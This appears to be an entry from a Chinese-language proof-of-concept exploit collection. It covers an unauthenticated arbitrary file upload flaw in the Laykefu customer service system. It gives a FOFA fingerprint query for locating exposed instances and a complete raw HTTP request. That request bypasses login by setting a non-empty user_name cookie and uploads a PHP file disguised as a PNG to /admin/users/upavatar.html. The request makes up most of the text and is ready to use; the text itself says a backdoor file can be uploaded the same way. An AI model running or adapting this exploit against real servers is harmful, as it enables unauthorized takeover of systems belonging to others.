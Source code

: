 ## Laykefu客服系统任意文件上传漏洞

Laykefu客服系统/admin/users/upavatar.html接口处存在文件上传漏洞，而且当请求中Cookie中的”user_name“不为空时即可绕过登录系统后台，未经身份验证的攻击者可利用此问题，上传后门文件，获取服务器权限。

## fofa
```
icon_hash="-334624619"
```

## poc
```
POST /admin/users/upavatar.html HTTP/1.1
Host: xxx.xxx.xxx
Content-Length: 194
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.26
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3OCVBiwBVsNuB2kR
Origin: http://xxx.xxx.xxx
Referer: http://xxx.xxx.xxx/admin/users/edituser/id/1.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user_name=1; user_id=3
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Edge";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close

------WebKitFormBoundary3OCVBiwBVsNuB2kR
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundary3OCVBiwBVsNuB2kR--
```
![44dcbdbc80e1e61fca16aff0516cf6c0](https://github.com/wy876/POC/assets/139549762/414797a3-6eb4-4466-a79e-9806adf1c8be)

![d0aeeb4590a1dd0ce9402db1a7888177](https://github.com/wy876/POC/assets/139549762/ad84b8aa-5358-4fb1-881c-edda45b69eb1)
